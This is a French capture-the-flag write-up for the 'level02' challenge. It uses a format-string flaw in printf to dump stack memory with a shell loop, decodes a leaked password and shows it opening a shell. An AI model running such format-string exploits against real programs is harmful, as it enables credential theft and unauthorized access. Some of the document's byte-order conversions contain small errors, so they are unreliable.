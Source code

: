 Le binaire level02 ne contiens qu'une fonction main.

cette fonction appelle **open** de **"/home/users/level03/.pass"** suivie d'une comparaison menant à un **exit**, puis un **fread**.

Cela nous réstreint dans notre utilisation de GDB, mais on sais que le pass est stocker quelque-part dans la **stack**.

Le programme lit  lit 2 fois sur l'entrée standard via **fgets**.

la premiere string **login** est passé en premier argument à la fonction printf.

la deusième string **passwd** est comparé au fichier **level03/.pass** et si la comparaison réussie le programme lance un shell.

On peux via le **scipt** ci dessous récupérer dans un fichier les valeurs stocker dans la stack de la fonction main:

<pre>
#!/bin/sh
IDX=0
while [ $IDX -lt 361 ]
do
echo $IDX >> /tmp/hexmap
(python -c "print '%$IDX\$lx ' + '\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  + '\n'") | ~/level02 | grep "access!" >> /tmp/hexmap   
IDX=$((IDX+1))
echo $IDX
done
</pre>

En regardant le fichier créé on trouve un zone mémoire contenant 40 caractères suivie d'un \0:

<pre>
%0$lx  does not have access!
7fffffffe4f0  does not have access!
0  does not have access!
0  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
7fffffffe6e8  does not have access!
1f7ff9a08  does not have access!
...
100000000  does not have access!
0  does not have access!
756e505234376848  does not have access!
45414a3561733951  does not have access!
377a7143574e6758  does not have access!
354a35686e475873  does not have access!
48336750664b394d  does not have access!
0  does not have access!
20786c24383225  does not have access!
...
</pre>

On peux essayer de traduire cette string de 40 char.

On doit inverser la position de chaque valeur dans chaque zone mémoire pour passer de little endian à big endian.
Puis convertir les valeurs de l'hexa vers la **table ascii**:

<pre>


	little endian	 => big endian		 => str	 	
1.	756e505234376848 => 4868373452506e75 => Hh74RPnu 
2.	45414a3561733951 => 51397361354a4145 => Q9sa5JAE 
3.	377a7143574e6758 => 58674e5743717a37 => XgNWCqz7 
4.	354a35686e475873 => 7358476e68354a35 => sXGnh5J5 
5.	48336750664b394d => d4394b6650673348 => M9KfPg3H 
0 => length 40


passwd => Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H 
</pre>

En le testant: 
<pre>
./level03
"test"
"Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"
Greetings, test!
$>
</pre>